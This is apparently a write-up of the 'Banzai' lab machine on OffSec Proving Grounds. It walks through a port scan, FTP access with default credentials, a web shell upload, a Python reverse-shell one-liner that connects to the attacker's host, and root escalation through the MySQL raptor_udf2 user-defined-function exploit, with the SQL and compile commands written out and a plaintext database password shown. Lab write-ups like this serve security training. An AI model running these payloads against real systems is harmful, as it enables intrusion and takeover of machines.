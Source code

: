 First start with nmap scan 

`nmap -sC -sV -T4 -oN nmap.txt <IP> -p- -Pn`

```
# Nmap 7.93 scan initiated Tue Dec 27 18:39:51 2022 as: nmap -sC -sV -T4 -oN fullmap.txt -Pn -p- 192.168.218.56
Nmap scan report for banzai.offseclabs.com (192.168.218.56)
Host is up (0.20s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
20/tcp   closed ftp-data
21/tcp   open   ftp        vsftpd 3.0.3
22/tcp   open   ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 ba3f6815288636497b4a84226815ccd1 (RSA)
|   256 2dec3f7831c3d0345e3fe76b77b56109 (ECDSA)
|_  256 4f615cccb01fbeb4eb8f1c897104f0aa (ED25519)
25/tcp   open   smtp       Postfix smtpd
|_smtp-commands: banzai.offseclabs.com, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
| ssl-cert: Subject: commonName=banzai
| Subject Alternative Name: DNS:banzai
| Not valid before: 2020-06-04T14:30:35
|_Not valid after:  2030-06-02T14:30:35
|_ssl-date: TLS randomness does not represent time
5432/tcp open   postgresql PostgreSQL DB 9.6.4 - 9.6.6 or 9.6.13 - 9.6.19
8080/tcp open   http       Apache httpd 2.4.25
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: 403 Forbidden
8295/tcp open   http       Apache httpd 2.4.25 ((Debian))
|_http-title: Banzai
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: Hosts:  banzai.offseclabs.com, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 27 18:52:32 2022 -- 1 IP address (1 host up) scanned in 761.19 seconds
```

Nice got some interesting ports open, first start by enumerating port 21.

![image](https://user-images.githubusercontent.com/87468669/209782893-a27f371b-1316-42fb-886a-458855b50f0b.png)

Tried loggin ftp with default creds like admin:admin and it worked, and i was able to put a file in the ftp directory, next let's enumerate port 8295 which is http service.

![image](https://user-images.githubusercontent.com/87468669/209783288-9829763c-4517-418d-85c2-e2424a66689b.png)

Checking page source was nothing sus in it, let's burst hidden dirs...

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/Banzai]
└─$ ffuf -u "http://192.168.108.56:8295/FUZZ" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fc 403 -fs 0,23315 -e .txt,.php,.bak,.zip,.js 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.108.56:8295/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .txt .php .bak .zip .js 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
 :: Filter           : Response size: 0,23315
________________________________________________

img                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 201ms]
css                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 1036ms]
lib                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 641ms]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 191ms]
shell.php               [Status: 200, Size: 233, Words: 9, Lines: 12, Duration: 194ms]
contactform             [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 189ms]
```

Great as seen above the ftp server was connected to this web server's directory, we can see the shell file that was uploaded earlier.

![image](https://user-images.githubusercontent.com/87468669/209784201-bc5d2705-ea4f-4476-9cc9-2846af9424a5.png)

Checking the shell.php file i uploaded, i got an RCE, so let's get a reverse shell. Fire up ncat listener

![image](https://user-images.githubusercontent.com/87468669/209784622-9c7d56ac-d9fc-46be-b13c-3b4a65e18c2b.png)

reverse shell payload ready

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.108",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![image](https://user-images.githubusercontent.com/87468669/209784859-bc6ce987-f54d-4f41-b3bc-75f077c3ecd7.png)

ran the reverse shell payload.

![image](https://user-images.githubusercontent.com/87468669/209784972-9680b912-e5e3-4416-a57b-b95f95b10889.png)

Boom I'm in got a reverse shell as user www-data.

![image](https://user-images.githubusercontent.com/87468669/209786068-eff48675-a09e-4efa-9002-70728d64814f.png)

stabilize the shell and esc privs...

![image](https://user-images.githubusercontent.com/87468669/209823977-a637ede7-9c2a-43ae-b7f3-90b047c4e0f8.png)

found a config.php file in the /var/www directory, reading the content of it looks like a mysql server logs. First thing i did was check whether MySQL is running with root privileges, which can be done with the following command:

```
ps aux | grep mysql
```

![image](https://user-images.githubusercontent.com/87468669/209824296-5945dcd7-a9aa-4bb9-94b3-f59ea3f2ec25.png)

Next, finding the running MySQL version will reveal whether it may be affected by a privilege escalation vulnerability:

```
mysql -V
mysql -u root -p -e 'select @@version`
```

![image](https://user-images.githubusercontent.com/87468669/209825660-2901fe9a-ed4e-4724-967b-233276178d2f.png)

Got the version, This version of MySQL is affected by a vulnerability that allows users to run user-defined functions to execute commands in the context of MySQL, which in this case is root. 

![image](https://user-images.githubusercontent.com/87468669/209825720-cdf5a41b-251f-42d1-bb9b-572d8357c4d2.png)

Next login with the creds that was found in config.php `root:EscalateRaftHubris123`

![image](https://user-images.githubusercontent.com/87468669/209826294-91b3a9fd-164b-49c0-8512-903214c56891.png)

searched for exploit on searchsploit. next is to compile the exploit.

```
gcc -g -c 1518.c -o raptor_udf2.o -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

![image](https://user-images.githubusercontent.com/87468669/209826556-2dc63fab-8444-4570-a035-83cc1d9f1c57.png)

Now we've compiled the exploit, send the compiled exploit to target.

![image](https://user-images.githubusercontent.com/87468669/209826684-8a798083-ce4c-49b7-853c-b9b67c180af9.png)

Remember it's ftp we are using to transfer files. Now from within MySQL, the following commands can be used to create a new table containing the path to the shared object, copying the same file under /usr/lib/mysql/plugin and creating a “do_system” function that will

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/var/www/html/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

![image](https://user-images.githubusercontent.com/87468669/209827333-4ebbe7c6-056c-48eb-aca3-b18fd6165de3.png)

If the plugin directory used in the MySQL instance is not the default one, the following command can be used to display the current plugin directory, from within MySQL:

```
show variables like '%plugin%';
```

![image](https://user-images.githubusercontent.com/87468669/209827578-85c08937-4bed-4bd7-b0ec-c25a510064de.png)

Now getting root... The “select do_system” statement can then be used to execute commands as root:

```
select do_system('<command>');
```

